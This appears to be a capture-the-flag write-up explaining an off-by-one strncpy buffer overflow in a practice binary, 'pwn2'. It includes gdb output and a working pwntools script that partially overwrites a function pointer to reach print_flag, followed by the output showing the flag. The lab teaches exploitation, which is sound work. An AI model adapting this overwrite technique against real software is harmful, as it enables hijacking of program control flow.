 
This function:

- Creates a 30 byte buffer, `ArgumentBuffer`
- Initializes `FunctionAddress` as the address of the function `two`
- Copies `0x1f` (31 decimal) bytes from `argument` into the `ArgumentBuffer` buffer using `strncpy`
- If `argument` is the string "one", it calls the function `one` by casting a pointer. 

Since `strncpy` copies 31 bytes into a 30 byte buffer, we have a buffer overflow. To complete this challenge, we need to overwrite the last byte of `FunctionAddress` (which is initialized as the address of the `two` function) with the last byte of `print_flag`'s address. This will make the function cast a pointer to `print_flag`. Let's use `pwngdb` to get the address of these two functions.

```
$ gdb pwn2                                                                                                                    [~]

pwndbg> info functions

All defined functions:

<SNIP>

0x000006ad  two
0x000006d8  print_flag

<SNIP>
```

We have all the information we need to create the exploit

```python3
from pwn import *

# Initialize the ELF file
elf = ELF("pwn2")

# Start the process
process = process(elf.path)

# Padding needed to reach 'FunctionAddress'
payload = b"A"* 30

# The last byte of "print_flag"'s address. This will overwrite the last byte of 'FunctionAddress',
# which was initiliazed as the address of `two`.
payload += p32(0xd8)

# Send the payload
process.sendline(payload)
process.interactive()
```

Upon running it...

```
$ python3 exploit_pwn2.py

[*] '/home/andrei/Workshop/pwn2'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/andrei/Workshop/pwn2': pid 142403
[*] Switching to interactive mode
Which function would you like to call?
This function is still under development.
flag{mmmmmmmm_m0nst3rk1ll}
```